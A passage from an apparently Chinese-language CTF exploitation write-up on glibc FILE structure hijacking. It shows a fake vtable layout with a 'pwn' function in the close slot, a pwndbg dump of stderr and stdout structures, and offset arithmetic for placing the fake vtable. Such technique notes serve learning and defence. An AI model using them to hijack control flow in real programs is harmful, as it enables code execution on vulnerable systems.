 - `fake_vtable_addr` + 0x58 = `libc_base` + `off_set_3`
- 其中 0x58 根據下表查處是 `set_buf` 在虛表的偏移

```
void * funcs[] = {
1 NULL, // "extra word"
2 NULL, // DUMMY
3 exit, // finish
4 NULL, // overflow
5 NULL, // underflow
6 NULL, // uflow
7 NULL, // pbackfail
8 NULL, // xsputn #printf
9 NULL, // xsgetn
10 NULL, // seekoff
11 NULL, // seekpos
12 NULL, // setbuf
13 NULL, // sync
14 NULL, // doallocate
15 NULL, // read
16 NULL, // write
17 NULL, // seek
18 pwn, // close
19 NULL, // stat
20 NULL, // showmanyc
21 NULL, // imbue
};
```
我這裏選擇了以下地址作爲 `fake_vtable` ：

```
pwndbg> x /60gx 0x7f41d9c02500
0x7f41d9c02500 <_nl_global_locale+224>:	0x00007f41d99cb997	0x0000000000000000
0x7f41d9c02510:	0x0000000000000000	0x0000000000000000
0x7f41d9c02520 <_IO_list_all>:	0x00007f41d9c02540	0x0000000000000000
0x7f41d9c02530:	0x0000000000000000	0x0000000000000000
0x7f41d9c02540 <_IO_2_1_stderr_>:	0x00000000fbad2086	0x0000000000000000
0x7f41d9c02550 <_IO_2_1_stderr_+16>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02560 <_IO_2_1_stderr_+32>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02570 <_IO_2_1_stderr_+48>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02580 <_IO_2_1_stderr_+64>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02590 <_IO_2_1_stderr_+80>:	0x0000000000000000	0x0000000000000000
0x7f41d9c025a0 <_IO_2_1_stderr_+96>:	0x0000000000000000	0x00007f41d9c02620
0x7f41d9c025b0 <_IO_2_1_stderr_+112>:	0x0000000000000002	0xffffffffffffffff
0x7f41d9c025c0 <_IO_2_1_stderr_+128>:	0x0000000000000000	0x00007f41d9c03770
0x7f41d9c025d0 <_IO_2_1_stderr_+144>:	0xffffffffffffffff	0x0000000000000000
0x7f41d9c025e0 <_IO_2_1_stderr_+160>:	0x00007f41d9c01660	0x0000000000000000
0x7f41d9c025f0 <_IO_2_1_stderr_+176>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02600 <_IO_2_1_stderr_+192>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02610 <_IO_2_1_stderr_+208>:	0x0000000000000000	0x00007f41d9c006e0
0x7f41d9c02620 <_IO_2_1_stdout_>:	0x00000000fbad2a84	0x00005582e351c010
0x7f41d9c02630 <_IO_2_1_stdout_+16>:	0x00005582e351c010	0x00005582e351c010
0x7f41d9c02640 <_IO_2_1_stdout_+32>:	0x00005582e351c010	0x00005582e351c010
0x7f41d9c02650 <_IO_2_1_stdout_+48>:	0x00005582e351c010	0x00005582e351c010
0x7f41d9c02660 <_IO_2_1_stdout_+64>:	0x00005582e351c410	0x0000000000000000
0x7f41d9c02670 <_IO_2_1_stdout_+80>:	0x0000000000000000	0x0000000000000000
0x7f41d9c02680 <_IO_2_1_stdout_+96>:	0x0000000000000000	0x00007f41d9c018e0
0x7f41d9c02690 <_IO_2_1_stdout_+112>:	0x0000000000000001	0xffffffffffffffff
0x7f41d9c026a0 <_IO_2_1_stdout_+128>:	0x0000000000000000	0x00007f41d9c03780
0x7f41d9c026b0 <_IO_2_1_stdout_+144>:	0xffffffffffffffff	0x0000000000000000
0x7f41d9c026c0 <_IO_2_1_stdout_+160>:	0x00007f41d9c017a0	0x0000000000000000
0x7f41d9c026d0 <_IO_2_1_stdout_+176>:	0x0000000000000000	0x0000000000000000
pwndbg> distance 0x7f41d9c025e0 0x7f41d983d000
0x7f41d9c025e0->0x7f41d983d000 is -0x3c55e0 bytes (-0x78abc words)
pwndbg> p 0x7f41d9c025e0 -0x58
```